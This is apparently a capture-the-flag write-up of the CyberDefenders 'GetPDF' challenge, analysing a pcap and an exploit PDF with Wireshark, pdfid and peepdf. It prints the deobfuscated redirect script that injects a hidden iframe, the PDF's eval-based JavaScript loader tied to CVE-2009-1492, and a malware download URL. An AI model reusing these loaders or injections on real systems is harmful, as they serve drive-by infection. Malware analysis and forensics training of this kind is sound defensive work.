


# GetPDF - Write up
The challenge was available at [CyberDefenders](https://cyberdefenders.org/). It was about analyzing malware PDF file. I would like to notice, that I did not manage to solve 2 tasks :(

**Operating system**: Windows 10\
**Used tools**: [de4js](https://lelinhtinh.github.io/de4js/), [pdfid](https://github.com/Rafiot/pdfid), [peepdf](https://github.com/jesparza/peepdf), [PDFStreamDumper](https://github.com/dzzie/pdfstreamdumper), [Wireshark](https://www.wireshark.org/download.html)

From the scenario I learnt that user opens a webpage, then he is redirected to URL of a malicious PDF. After opening it, Adobe Acrobat Reader was exploited and as a result it downloaded and installed malware. The network trafiic was captured in `lala.pcap`.

## How many URL path(s) are involved in this incident?
Answer to the first task is available at `Statistics->HTTP->Requests` option in Wireshark. There was 6 URLs involved.


## What is the URL which contains the JS code?
In pcap was only 76 lines, so I decied to do as much as I could manually. I looked for requests to webpages. The first one appeared in 6 request, but in the response it got `301 Moved Permanently`, and the request after that was one I was looking for. In 10 row is a request to website, and in 12 is the response, which contained JavaScript code - `http://blog.honeynet.org.my/forensic_challenge/`



## What is the URL hidden in the JS code?
I followed HTTP Stream of request in 12 row - `Follow -> HTTP Stream`.


I used  (de4js)[https://lelinhtinh.github.io/de4js/] to deobfuscate a little bit this code.
Then I had to manually deobfuscate the rest. I calculated all the vars and replaced them with values, for example:
```
var KesXanavn = -50;
KesXanavn += 66;
```
I replaced `KesXanavn` with `16`. 

The final form of this script is presented below.
```
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var url = '';
var fromCharCode = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
fromCharCode = String[fromCharCode];
for (i = 0; i < DayahDet.length - 1; i += 2) url += fromCharCode(parseInt((DayahDet[i + 0].length - 1).toString(16) + (DayahDet[i + 1].length - 1).toString(16), 16));
console.log(url)
```

In the end of the script was `eval(url)` but I replaced it with `console.log(url)` to see exactly result from this loop. I run this script in online compiler - [OneCompiler](https://onecompiler.com/javascript) and it printed:

`document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0"@src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')`

The hidden URL was `http://blog.honeynet.org.my/forensic_challenge/getpdf.php`

## What is the MD5 hash of the PDF file contained in the packet?
In Wireshark I can export found objects. I used `File->Export Objects->HTTP`. 


I am interested in PDF file, so i pressed on raw with Content Type `application/pdf` and then `Save` as `fcexploit.pdf`.

In the end I calculated hash with Powershell - `659CF4C6BAA87B082227540047538C2A`

`Get-FileHash .\fcexploit.pdf -Algorithm MD5 | Format-List`


## How many object(s) are contained inside the PDF file?
Now I used `pdfid` to find out how many objects are contained inside. There were `19` objects.

` C:\Python27\python.exe C:\pdfid\pdfid-master\pdfid\pdfid.py .\fcexploit.pdf`


## How many filtering schemes are used for the object streams?
I opened `fcexploit.pdf` with notepad to see raw file. Filters in PDF should be exactly specified. I searched for `/Filter` and counted how many schemes were definied. The rest of filters in this file were the same. There were 4 filtering schemas used.


## What is the number of the 'object stream' that might contain malicious JS code?
To find out what number of the object might contain malicioius JavaScript code, I used `peepdf` tool. 

`py C:\peepdf\peepdf-master\peepdf.py -fi .\fcexploit.pdf`

In yellow font there was printed that there was 1 object with JavaScript code. It was 5th object. It also shows, that this code is related to `CVE-2009-1492`




## Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Another streams which were interesting were `7` and `9`. They could be visible in `peepdf.py` using command `stream`. I tried with them, and the answer was correct.

## The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?
I started with launching interactive console with `peepdf.py`.

`py C:\peepdf\peepdf-master\peepdf.py -fi .\fcexploit.pdf`

Then I used `js_code 5` to analyze JavaScript code from fifth object.

```
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({
        nPage: 0
    });
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```


## The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?
This could be found in Wireshark. After exporting HTTP objects, the filename `the_real_malware.exe` was visible, that it being tried to download in 59 packet with failure. the full URL was `http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe`


## How many CVEs are included in the PDF file?